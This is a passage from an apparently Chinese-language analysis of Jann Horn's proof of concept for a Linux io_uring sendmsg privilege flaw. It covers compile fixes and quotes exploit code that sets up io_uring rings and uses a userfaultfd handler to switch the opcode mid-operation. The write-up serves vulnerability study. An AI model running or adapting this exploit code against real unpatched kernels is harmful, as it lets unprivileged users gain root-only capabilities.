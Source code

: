 
## poc 分析

漏洞是在[`commit 0fa03c624d8f ("io_uring: add support for sendmsg()", first in v5.3)`](https://github.com/torvalds/linux/commit/0fa03c624d8fc9932d0f27c39a9deca6a37e0e17)引入的，它添加了一个 `io_sendmsg` 方法， 对应的opcode 是`IORING_OP_SENDMSG 9`

我们拷贝一下[Jannh的poc](//bugs.chromium.org/p/project-zero/issues/detail?id=1975&amp;sort=-id%20-reported&amp;q=finder%3Djannh&amp;can=1)), 我的测试环境是在ubuntu 1804 上，测试内核用 linux 5.4 版本。

编译的时候可能会报错,可能是找不到系统调用号，在poc开始添加下面两行。把linux的`include/uapi/linux/io_uring.h`文件拷贝过来，然后把`#include &lt;linux/io_uring.h&gt;` 换成`#include "io_uring.h"` 就可以了

```
#define SYS_io_uring_setup 425 
#define SYS_io_uring_enter 426
```

poc 运行之后会添加一个inet 地址，这个是需要root权限才能操作的。

[![](https://p4.ssl.qhimg.com/t01b7288cbb00d35165.jpg)](https://p4.ssl.qhimg.com/t01b7288cbb00d35165.jpg)

首先调用`io_uring_enter`创建一个fd, 并把内存映射好

```
struct io_uring_params params = `{` `}`;                                                                 int uring_fd = SYSCHK(syscall(SYS_io_uring_setup, /*entries=*/10, &amp;params));                         unsigned char *sq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQ_RING));                                                                                 unsigned char *cq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_CQ_RING));                                                                                 sqes = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQES));
```

然后用 userfaultfd 监听 `iov` 这一块内存

```
iov = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0));  
struct uffdio_register reg = `{`                                
    .mode = UFFDIO_REGISTER_MODE_MISSING,                       
    .range = `{` .start = (unsigned long)iov, .len = 0x1000 `}`     
  `}`;
```

它会在 内存被读写的时候吧opcode改成`IORING_OP_SENDMSG`(9)

```
static void *uffd_thread(void *dummy) `{`                           
  struct uffd_msg msg;                                            
  int res = SYSCHK(read(uffd, &amp;msg, sizeof(msg)));                
  if (res != sizeof(msg)) errx(1, "uffd read");                   
  printf("got userfaultfd messagen");                            

  sqes[0].opcode = IORING_OP_SENDMSG;                             

  union `{`                                                         
    struct iovec iov;                                             
    char pad[0x1000];                                             
  `}` vec = `{`                                                       
    .iov = real_iov                                               
  `}`;                                                              
  struct uffdio_copy copy = `{`                                     
    .dst = (unsigned long)iov,                                    
    .src = (unsigned long)&amp;vec,                                   
    .len = 0x1000                                                 
  `}`;                                                              
  SYSCHK(ioctl(uffd, UFFDIO_COPY, &amp;copy));                        
  return NULL;                                                    
`}`
```